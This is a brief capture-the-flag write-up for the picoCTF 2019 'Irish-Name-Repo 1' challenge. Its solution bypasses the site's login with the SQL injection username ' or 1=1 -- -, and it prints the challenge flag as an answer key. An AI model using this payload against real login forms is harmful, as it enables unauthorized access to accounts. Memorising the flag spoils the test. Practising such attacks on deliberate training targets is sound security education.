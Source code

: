 ## Irish-Name-Repo 1 (300)

#### Description
> There is a website running at https://2019shell1.picoctf.com/problem/12273/ (link) or http://2019shell1.picoctf.com:12273. Do you think you can log us in? Try to see if you can login!

#### Hint
> There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?

> Try to think about how does the website verify your login?

#### Solution
Visit https://2019shell1.picoctf.com/problem/12273/login.html.
Login with this SQL injection:
```
Username: ' or 1=1 -- -
Password: anything
```

#### Flag
`picoCTF{s0m3_SQL_34865514}`